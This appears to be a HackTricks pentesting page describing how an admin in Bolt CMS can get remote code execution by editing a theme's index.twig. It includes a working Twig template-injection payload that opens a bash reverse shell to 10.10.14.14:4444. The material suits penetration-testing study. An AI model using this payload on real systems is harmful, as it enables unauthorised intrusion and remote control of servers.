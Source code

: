 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

After login as admin (go to /bot lo access the login prompt), you can get RCE in Bolt CMS:

- Select `Configuration` -> `View Configuration` -> `Main Configuration` or go the the URL path `/bolt/file-edit/config?file=/bolt/config.yaml`
  - Check the value of theme

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Select `File management` -> `View & edit templates`
  - Select the theme base found in the previous (`base-2021` in this case) step and select `index.twig`
  - In my case this is in the URL path /bolt/file-edit/themes?file=/base-2021/index.twig
- Set your payload in this file via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), like: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
  - And save changes

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Clear the cache in `Maintenance` -> `Clear the cache`
- Access again the page as a regular user, and the payload should be executed

{{#include ../../banners/hacktricks-training.md}}

